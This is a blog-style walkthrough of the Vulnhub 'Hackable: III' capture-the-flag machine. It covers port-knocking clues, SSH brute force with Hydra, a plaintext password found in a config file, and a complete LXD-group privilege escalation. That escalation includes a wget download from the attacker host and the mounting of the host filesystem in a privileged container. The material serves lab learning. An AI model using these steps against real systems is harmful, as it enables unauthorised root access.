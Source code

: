 ```yaml
---
layout: post
title:  "HACKABLE: III"
date:   2021-09-17 22:00:00 +1000
category: hacking
---
```


There has been nothing good on THM for a little while now, so I'm working back through some older Vulnhub machines. Not that this is particularly old, but whatever. I had **looz** in my list so I thought I might do that; once I booted it up I remembered that I already had finished the box but hadn't bothered writing it up. Ooof.

Anyway this was [HACKABLE: III](https://www.vulnhub.com/entry/hackable-iii,720/).

## Let's Go
HTTP only. Let's start pokin' around. A comment in the page source on the webroot says:

>Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com

So...sounds like port knocking. Robots.txt disallows */config*, which contains 1.txt, which contains: MTAwMDA=, which is 10000 in base64. That's our first port.

We find port 2 here: *http://192.168.1.100/css/2.txt*. This contains some brainfuck, which decodes to 4444; that's our second port. 

Viewing the source for *http://192.168.1.100/login.php* gives us:

{% highlight php %}
<?php
include('config.php');

$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";  
$result = mysqli_query($conexao, $query);
$row = mysqli_num_rows($result);

#validaÃ§Ã£o conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}
?>
{% endhighlight %}

So, if we go get 3.jpg we can run stegseek on it...

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackable3]
└─# stegseek 3.jpg            
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: ""
[i] Original filename: "steganopayload148505.txt"
[i] Extracting to "3.jpg.out"
                                            
┌──(root💀kali)-[/opt/vulnhub/hackable3]
└─# cat 3.jpg.out 
porta:65535           
{% endhighlight %}

And there's our third port. Note you don't *have* to use three ports for port knocking, but it's common in CTFs.

Let's see if it works:

``
knock 192.168.1.100 10000 4444 65535
``

Re-run the port scan, and bingo we have SSH open.

### SSH
We already had two potential usernames:

1. jubiscleudo, and
2. dev_suport

And in the course of our fuzzing the webserver, we turned up **http://192.168.1.100/backup/wordlist.txt** which has 300 entries. I run it first with *dev_suport* with Hydra; no dice. But it's bingo with *jubiscleudo*.

Once we get on, we have one other main user: *hackable_3*. We can find his password in */var/www/html/.backup_config.php*

{% highlight php %}
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'hackable_3');
define('DB_PASSWORD', 'TrOLLED_3');
define('DB_NAME', 'hackable');
 
/* Attempt to connect to MySQL database */
$conexao = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);


// Check connection
if($conexao === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
} else {
}
?>
{% endhighlight %}

There is no mysql on the box, but **TrOLLED_3** works for hackable_3. *hackable_3* is in the lxd group, so that's it:

{% highlight shell %}
hackable_3@ubuntu20:~$ wget http://192.168.1.210:9090/alpine-v3.14-x86_64-20210910_2324.tar.gz
--2021-09-17 12:12:38--  http://192.168.1.210:9090/alpine-v3.14-x86_64-20210910_2324.tar.gz
Connecting to 192.168.1.210:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3253157 (3.1M) [application/x-tar]
Saving to: ‘alpine-v3.14-x86_64-20210910_2324.tar.gz’

alpine-v3.14-x86_64-20210910_2324.tar.gz            100%[================================================================================================================>]   3.10M  --.-KB/s    in 0.02s   

2021-09-17 12:12:38 (172 MB/s) - ‘alpine-v3.14-x86_64-20210910_2324.tar.gz’ saved [3253157/3253157]

hackable_3@ubuntu20:~$ lxc image list
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

+-------+-------------+--------+-------------+--------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCHITECTURE | TYPE | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+--------------+------+------+-------------+
hackable_3@ubuntu20:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (lvm, zfs, ceph, btrfs, dir) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
hackable_3@ubuntu20:~$ lxc image import alpine-v3.14-x86_64-20210910_2324.tar.gz --alias alpine
Image imported with fingerprint: 1b9b6768ec27c8c3e20e09ccd8c1f3bc6a4a9e55b0a858926545c4ad3c88562b
hackable_3@ubuntu20:~$ lxc image list
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| alpine | 1b9b6768ec27 | no     | alpine v3.14 (20210910_23:24) | x86_64       | CONTAINER | 3.10MB | Sep 17, 2021 at 12:13pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
hackable_3@ubuntu20:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
hackable_3@ubuntu20:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
hackable_3@ubuntu20:~$ lxc start privesc
hackable_3@ubuntu20:~$ lxc exec privesc /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # ls -lash
total 48K    
     4 drwx------    6 root     root        4.0K Jun 29 19:44 .
     4 drwxr-xr-x   21 root     root        4.0K Apr 29 16:32 ..
     0 -rw-------    1 root     root           0 Jun 30 20:46 .bash_history
     4 -rw-r--r--    1 root     root        3.0K Aug 14  2019 .bashrc
     4 drwx------    2 root     root        4.0K Apr 29 16:11 .cache
     4 -rw-------    1 root     root          28 Jun 29 19:44 .lesshst
     4 drwxr-xr-x    3 root     root        4.0K Apr 29 16:28 .local
     4 -rw-r--r--    1 root     root         161 Sep 16  2020 .profile
     4 -rw-r--r--    1 root     root          66 Apr 29 16:37 .selected_editor
     4 drwx------    2 root     root        4.0K Apr 27 15:07 .ssh
     4 -rwxr-xr-x    1 root     root          46 Jun 28 23:21 knockrestart.sh
     4 -rw-------    1 root     root        2.7K Jun 28 23:41 root.txt
     4 drwxr-xr-x    3 root     root        4.0K Apr 27 15:07 snap
/mnt/root/root # cat root.txt
░░█▀░░░░░░░░░░░▀▀███████░░░░
░░█▌░░░░░░░░░░░░░░░▀██████░░░
░█▌░░░░░░░░░░░░░░░░███████▌░░
░█░░░░░░░░░░░░░░░░░████████░░
▐▌░░░░░░░░░░░░░░░░░▀██████▌░░
░▌▄███▌░░░░▀████▄░░░░▀████▌░░
▐▀▀▄█▄░▌░░░▄██▄▄▄▀░░░░████▄▄░
▐░▀░░═▐░░░░░░══░░▀░░░░▐▀░▄▀▌▌
▐░░░░░▌░░░░░░░░░░░░░░░▀░▀░░▌▌
▐░░░▄▀░░░▀░▌░░░░░░░░░░░░▌█░▌▌
░▌░░▀▀▄▄▀▀▄▌▌░░░░░░░░░░▐░▀▐▐░
░▌░░▌░▄▄▄▄░░░▌░░░░░░░░▐░░▀▐░░
░█░▐▄██████▄░▐░░░░░░░░█▀▄▄▀░░
░▐░▌▌░░░░░░▀▀▄▐░░░░░░█▌░░░░░░
░░█░░▄▀▀▀▀▄░▄═╝▄░░░▄▀░▌░░░░░░
░░░▌▐░░░░░░▌░▀▀░░▄▀░░▐░░░░░░░
░░░▀▄░░░░░░░░░▄▀▀░░░░█░░░░░░░
░░░▄█▄▄▄▄▄▄▄▀▀░░░░░░░▌▌░░░░░░
░░▄▀▌▀▌░░░░░░░░░░░░░▄▀▀▄░░░░░
▄▀░░▌░▀▄░░░░░░░░░░▄▀░░▌░▀▄░░░
░░░░▌█▄▄▀▄░░░░░░▄▀░░░░▌░░░▌▄▄
░░░▄▐██████▄▄░▄▀░░▄▄▄▄▌░░░░▄░
░░▄▌████████▄▄▄███████▌░░░░░▄
░▄▀░██████████████████▌▀▄░░░░
▀░░░█████▀▀░░░▀███████░░░▀▄░░
░░░░▐█▀░░░▐░░░░░▀████▌░░░░▀▄░
░░░░░░▌░░░▐░░░░▐░░▀▀█░░░░░░░▀
░░░░░░▐░░░░▌░░░▐░░░░░▌░░░░░░░
░╔╗║░╔═╗░═╦═░░░░░╔╗░░╔═╗░╦═╗░
░║║║░║░║░░║░░░░░░╠╩╗░╠═╣░║░║░
░║╚╝░╚═╝░░║░░░░░░╚═╝░║░║░╩═╝░

invite-me: linkedin.com/in/eliastouguinho
/mnt/root/root # 
{% endhighlight %}
